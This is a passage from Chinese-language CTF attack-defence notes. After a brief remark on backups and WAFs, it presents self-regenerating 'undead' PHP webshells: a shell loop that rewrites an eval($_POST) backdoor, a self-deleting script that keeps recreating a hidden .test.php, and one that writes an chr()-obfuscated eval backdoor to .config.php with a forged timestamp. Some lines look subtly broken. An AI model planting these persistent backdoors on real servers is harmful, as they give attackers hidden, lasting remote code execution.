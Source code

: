 生成的日志是 www-data 权限，一般 ctf 权限是删除不了的。上好 WAF 之后做好打包备份，除了源文件一份备份，我一般上好 WAF ，打好补丁还会做备份。

## 不死马

直接linux执行

~~~shell
while true;do echo '<?php eval($_POST["x"]);?>' > x.php;sleep 1;done
~~~

或
**bs1.php**
访问后同目录持续生成 `.test.php` 文件

```php
<?php
set_time_limit(0);
//程序执行时间
ignore_user_abort(1);
//关掉终端后脚本仍然运行
unlink(__FILE__);
//文件完整名
while(1) {
 file_put_contents('.test.php','<?php $a=array($_REQUEST["x"]=>"3");   // pwd=x
$b=array_keys($a)[0];
eval($b);?>');
 sleep(5);
}
?>
```

**bs2.php**
访问后同目录持续生成 `.config.php` 文件

```php
<?php
 set_time_limit(0);
 ignore_user_abort(1);
 unlink(_FILE);
 while(1){
  file_put_contents('./.config.php','<?php $_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();?>');
  system('chmod777.config.php');
  touch("./.config.php",mktime(20,15,1,11,28,2016));   // pwd=1
  usleep(100);
  }
?>
```

## 命令find进行文件监控
